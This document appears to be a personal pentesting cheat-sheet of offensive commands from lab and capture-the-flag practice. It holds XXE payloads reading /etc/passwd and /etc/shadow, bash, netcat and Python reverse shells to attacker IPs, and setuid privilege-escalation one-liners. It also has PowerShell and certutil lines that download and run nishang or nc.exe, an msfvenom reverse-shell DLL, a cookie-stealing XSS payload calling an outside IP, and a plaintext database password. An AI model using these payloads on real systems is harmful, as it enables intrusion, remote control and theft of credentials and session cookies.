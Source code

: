 # This file is used to notedown the useful commands during pentesting. After that I arrange the commands
# accordingly in other files in this directory  



1. XXE:

<?xml  version="1.0" encoding="ISO-8859-1"?>                              
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&ent;</title>
		<cwe>aaa</cwe>
		<cvss>aaa</cvss>

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>




2. Capabilities search: `getcap -r / 2>/dev/null`


3. Python pty Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`



4.Reverse shell : 

Bash : `/bin/bash -i 1>&/dev/tcp/10.10.14.5/1234 0<&1`

Netcat : `nc -e /bin/bash 10.10.14.5 4444`

Netcat(2) : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

Python: 

`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

5. Perl system command one liner: `sudo perl -e 'system("/bin/bash -p");'`


6. XSS : `<script>alert("XSS")</script>`

7. Find Setuid enabled Programs : `find / -perm -u=s -type f 2>/dev/null`

8. df - to see free disk space of all mounted devices

9. Hash cracking :`hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --force`  

10. Connect to Mysql server from the victim : `mysql -u username -h localhost --password=userpassword -D databasename -e 'show tables;'`

perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

echo "import os;os.setuid(0);os.system('chmod u+s /bin/bash')" >test.py

Remember `echo "/bin/bash">file`  NOT  `cp /bin/bash ./file`

export PATH=/home/rabbit:$PATH  

1. mdb-tools for .mdb(MS Access) files
2. pst-utls for .pst files.
3. Download from  ftp in binary mode 


xxd -r -p key ssh.key

cat ~/.bash_history

powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.11:8000/nishang.ps1')
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/jaws-enum.ps1')
powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:8000/jaws-enum.ps1", "C:\\Users\\Public\\Downloads\\jaws-enum.ps1")

powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.11:8000/nc.exe","C:\\xampp\htdocs\gym\upload\nc.exe")

certutil -urlcache -split -f http://10.10.14.11:8000/nc.exe

net users Administrator

cmdkey /list

runas /user:Administrator /savecred "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/nishang2.ps1')"

whoami /prev



sudo responder -wrf --lm -v -I tun0 


msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f dll -o ./evil.dll



mysql -u admin -h localhost --password=kEjdbRigfBHUREiNSDs -D admin










	<script>
	document.write('<img src="http://35.227.24.107/7181c58a9a/index.php?c='+document.cookie+'" />');
	</script>


eccbc87e4b5ce2fe28308fd9f2a7baf3








    Your credentials: wiener:peter
    Victim's credentials carlos:montoya


proxytunnel -p 192.168.2.4:3128 -d 127.0.0.1:22 -a 1234 
sudo ssh user@127.0.0.1 -p 1234 /bin/bash : if bashrc does not allow stable shell. After getting stable shell with this command delete .bashrc file.


Remove spaces from a string: echo "$str"|sed 's/ //g'`


import requests;r.get(url="https://3874-106-193-220-219.in.ngrok.io");


__import__(\"os\").system(\"curl https://3874-106-193-220-219.in.ngrok.io